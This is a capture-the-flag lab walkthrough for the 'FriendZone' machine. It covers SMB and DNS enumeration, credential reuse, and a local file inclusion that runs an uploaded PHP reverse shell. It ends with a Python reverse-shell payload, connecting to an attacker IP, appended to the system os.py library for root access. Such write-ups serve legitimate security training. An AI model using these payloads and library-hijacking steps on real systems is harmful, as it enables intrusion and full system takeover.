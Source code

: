 ## FriendZone

Difficulty: Easy

### User Flag

On nmap, we find a domain name called friendzone.red. Put this on /etc/hosts.

```
rustscan -a 10.10.10.123 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/b85884f9-a01a-4841-9c73-85542e3f876e)

<br>

Enumerating SMB, we find credentials inside /General on creds.txt file.

```
smbmap -H 10.10.10.123

smbclient //10.10.10.123/general -U ""
```

![smbmap](https://github.com/b1d0ws/OSCP/assets/58514930/d8d8b00b-fa39-44f4-b861-9aeaaf618d40)

![credsTXT](https://github.com/b1d0ws/OSCP/assets/58514930/064ccdde-ca38-4653-b241-b8692c285b15)

<br>

We can enumerate subdomain with DNS Zone Transfer.

```
dig axfr @10.10.10.123 friendzone.red
```

![zoneTransfer](https://github.com/b1d0ws/OSCP/assets/58514930/17c8c03e-23d4-477c-9303-bd884dbe3eee)

<br>

We can use the found credentials on administrator1.friendzone.red.

![adminLogin](https://github.com/b1d0ws/OSCP/assets/58514930/1b9d8cc5-8a56-40d9-bb9b-678d65925d36)

![loginPHP](https://github.com/b1d0ws/OSCP/assets/58514930/16cdadc3-9353-4793-a253-b0648347b683)

<br>

On dashboard, we can use parameter pagename to perform LFI. First, upload a PHP Reverse Shell on Development SMB Folder and execute acessing it on /etc/development.  

We can guess that this is the directory since "File" directory is on /etc/files as smbmap brought to us.

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/php-reverse-shell
```

![friendzoneAdmin](https://github.com/b1d0ws/OSCP/assets/58514930/e57c6e79-e02c-45a0-95ca-76b0332c1882)

![testingParameters](https://github.com/b1d0ws/OSCP/assets/58514930/988512fd-bd43-4a41-8a26-fcb72da2f7ab)

![developmentReverse](https://github.com/b1d0ws/OSCP/assets/58514930/5eb61e67-5d35-44ba-b201-5a79185a6295)

![reverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/7a7caddc-9a56-48ed-989b-9fe3a7b34ed3)

<br>

### Root Flag

#### Friend User

We can find friend's password inside /var/www/mysql_data.conf and login via SSH.

![friendCredentials](https://github.com/b1d0ws/OSCP/assets/58514930/48143dc4-e1b2-40ec-8c60-a8425550bb20)

#### Privilege Escalation

Using pspy, there is a cronjob running /opt/server_admin/reporter.py.

![pspy](https://github.com/b1d0ws/OSCP/assets/58514930/31653c10-c729-454c-891b-c633c2f7ed8d)

Looking at this file, "os" library is being used and we have permission to edit its file.  

Put a python reverse shell in the end of the file and get a root reverse shell.

```
nano /usr/lib/python2.7/os.py

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.21",3333))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

![reporterPy](https://github.com/b1d0ws/OSCP/assets/58514930/1293daf7-3c03-4419-a813-687c2942e642)

![editingLibrary](https://github.com/b1d0ws/OSCP/assets/58514930/95e744dc-b490-4939-a4f2-4dee9cf43ba0)
